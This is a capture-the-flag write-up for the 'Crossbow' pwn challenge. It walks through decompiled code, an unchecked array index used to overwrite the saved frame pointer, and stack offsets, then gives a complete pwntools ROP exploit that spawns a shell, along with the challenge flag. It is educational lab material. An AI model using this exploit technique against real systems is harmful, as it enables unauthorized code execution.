 # Cyber Apocalypse CTF 2025: Tales from Eldoria

## Crossbow
> Sir Alaric's legendary shot can pierce through any enemy! Join his training and hone your aim to match his unparalleled precision.

- **Category**: Pwn 
- **Difficulty**: Easy
- **Author**: Cioppo

## Writeup

Protection:
```bash
> checksec crossbow
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
```
The got is writable and we have no PIE!

Let's decompile the two most important functions
```C
__int64 training()
{
  _BYTE v1[32]; // [rsp+0h] [rbp-20h] BYREF

  printf(
    (__int64)"%s\n[%sSir Alaric%s]: You only have 1 shot, don't miss!!\n",
    "\x1B[1;34m",
    "\x1B[1;33m",
    "\x1B[1;34m");
  target_dummy((__int64)v1);
  return printf((__int64)"%s\n[%sSir Alaric%s]: That was quite a shot!!\n\n", "\x1B[1;34m", "\x1B[1;33m", "\x1B[1;34m");
}
```
And the second:
```C
__int64 __fastcall target_dummy(__int64 a1)
{
  int v1; // edx
  int v2; // ecx
  int v3; // r8d
  int v4; // r9d
  _QWORD *v5; // rbx
  __int64 result; // rax
  int v7; // [rsp+1Ch] [rbp-14h] BYREF

  printf((__int64)"%s\n[%sSir Alaric%s]: Select target to shoot: ", "\x1B[1;34m", "\x1B[1;33m", "\x1B[1;34m");
  if ( (unsigned int)scanf((unsigned int)"%d%*c", (unsigned int)&v7, v1, v2, v3, v4) != 1 )
  {
    printf(
      (__int64)"%s\n[%sSir Alaric%s]: Are you aiming for the birds or the target kid?!\n\n",
      "\x1B[1;31m",
      "\x1B[1;33m",
      "\x1B[1;31m");
    exit(1312LL);
  }
  v5 = (_QWORD *)(8LL * v7 + a1);
  *v5 = calloc(1LL, 128LL);
  if ( !*v5 )
  {
    printf((__int64)"%s\n[%sSir Alaric%s]: We do not want cowards here!!\n\n", "\x1B[1;31m", "\x1B[1;33m", "\x1B[1;31m");
    exit(6969LL);
  }
  printf((__int64)"%s\n[%sSir Alaric%s]: Give me your best warcry!!\n\n> ", "\x1B[1;34m", "\x1B[1;33m", "\x1B[1;34m");
  result = fgets_unlocked(*(_QWORD *)(8LL * v7 + a1), 128LL, &_stdin_FILE);
  if ( !result )
  {
    printf((__int64)"%s\n[%sSir Alaric%s]: Is this the best you have?!\n\n", "\x1B[1;31m", "\x1B[1;33m", "\x1B[1;31m");
    exit(69LL);
  }
  return result;
}
```
they are called like this ``main -> training -> target_dummy``.
We can notice that there are no canaries? (``checksec`` lied to us... :()

Let's focus on this part of the ``target_dummy`` function:
```C
  if ( (unsigned int)scanf((unsigned int)"%d%*c", (unsigned int)&v7, v1, v2, v3, v4) != 1 )
  // ...
  v5 = (_QWORD *)(8LL * v7 + a1);
  *v5 = calloc(1LL, 128LL);
  // ...
  result = fgets_unlocked(*(_QWORD *)(8LL * v7 + a1), 128LL, &_stdin_FILE);
```
Let's rewrite it in a more readable way
```C
  scanf("%d%*c", &v7);
  v5 = &a1[v7*8];
  *v5 = calloc(1, 128);
  fgets(*v5, 128, stdin);
```
We are writing the address given by ``calloc`` at the ``[v7*8]`` position of the array a1 (of size 32 bytes).
This happens because the program doesn't do any kind of input check on the ``v7`` variable, we can even put negative values! (this will be important shortly)

So what can we do with this?
We could rewrite the return address and put a shellcode in ``*v5`` but the heap is not executable! So let's override the frame pointer of the function ``target_dummy`` and start a ROP chain from there, let's calculate the offsets:
```py
pwndbg> stack 20
00:0000│ rsp     0x7fffffffdb70 ◂— 0x0
01:0008│-028     0x7fffffffdb78 —▸ 0x7fffffffdbb0 ◂— 0x0
02:0010│-020     0x7fffffffdb80 ◂— 0x0
03:0018│-018     0x7fffffffdb88 ◂— 0x0
04:0020│-010     0x7fffffffdb90 ◂— 0x1312
05:0028│-008     0x7fffffffdb98 ◂— 0x1
06:0030│ rbp     0x7fffffffdba0 —▸ 0x7fffffffdbd0 —▸ 0x7fffffffdbe0 —▸ 0x7fffffffdc28 —▸ 0x7fffffffdf76 ◂— ...
07:0038│+008     0x7fffffffdba8 —▸ 0x4013b8 (training+74) ◂— lea rax, [rip + 0xa0e9]
08:0040│ rax rdi 0x7fffffffdbb0 ◂— 0x0 # Start of a1
09:0048│+018     0x7fffffffdbb8 —▸ 0x401175 (cls+58) ◂— nop 
0a:0050│+020     0x7fffffffdbc0 —▸ 0x7fffffffdbd0 —▸ 0x7fffffffdbe0 —▸ 0x7fffffffdc28 —▸ 0x7fffffffdf76 ◂— ...
0b:0058│+028     0x7fffffffdbc8 —▸ 0x4011bc (banner+68) ◂— nop 
0c:0060│+030     0x7fffffffdbd0 —▸ 0x7fffffffdbe0 —▸ 0x7fffffffdc28 —▸ 0x7fffffffdf76 ◂— '/home/cioppo/cybersecurity/ctf/CyberApocalypse2025/crossbow/challenge/crossbow'
0d:0068│+038     0x7fffffffdbd8 —▸ 0x40144a (main+93) ◂— mov eax, 0
0e:0070│+040     0x7fffffffdbe0 —▸ 0x7fffffffdc28 —▸ 0x7fffffffdf76 ◂— '/home/cioppo/cybersecurity/ctf/CyberApocalypse2025/crossbow/challenge/crossbow'
0f:0078│+048     0x7fffffffdbe8 —▸ 0x40171f (libc_start_main_stage2+47) ◂— mov edi, eax
10:0080│+050     0x7fffffffdbf0 ◂— 0x0
```
Let take the address of ``a1`` and substract ``rbp``
```py
>>> 0x7fffffffdbb0 - 0x7fffffffdba0
16
```
we need to go ``-16`` from ``a1``, let's so put ``v7 = -2``:
```C
  v5 = &a1[-2*8]; // =-16
  *v5 = calloc(1, 128);
  fgets(*v5, 128, stdin);
```
we can then write our ROP chain in the heap (starting at ``+8`` because ``*v5`` is ``rbp``), we don't have a ``/bin/sh\x00`` string in our binary so we will need to write it somewhere, I chosed ``.bss``.


### Full exploit
---
```py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./crossbow_patched")

context.binary = exe
context.log_level = "debug"

global r
def conn():
    global r
    if args.LOCAL:
        r = process([exe.path])
    elif args.GDB:
        r = gdb.debug([exe.path])
    else:
        r = remote("addr", 1337)

    return r

# Gadgets (found with ropr)
SYSCALL = 0x0040ae31
POP_RAX = 0x0040aec5
POP_RDI = 0x0040ac2d
POP_RSI = 0x004069b6
POP_RDX = 0x00401139
WRITE = 0x00402216 # mov [rdi], rax; ret;
BSS = 0x000000000040e220

def main():
    conn()

    # Our ROP chain on the heap
    payload = flat([
        0xdeadbeef, # rbp
        # Write /bin/sh somewhere writable
        POP_RDI,
        BSS,
        POP_RAX,
        b"/bin/sh\x00",
        WRITE,
        # Let's call execve (we already have RDI set)
        POP_RAX,
        0x3b,
        POP_RSI,
        0,
        POP_RDX,
        0,
        SYSCALL
    ])

    # Override the frame pointer of target_dummy and send payload
    r.sendlineafter(b": ", b"-2")
    r.sendlineafter(b"> ", payload)

    # We have the shell!
    r.interactive()

if __name__ == "__main__":
    main()

```

> HTB{st4t1c_b1n4r13s_ar3_2_3z_5ef4829bbd22bac4ca62fa87a57eda7b}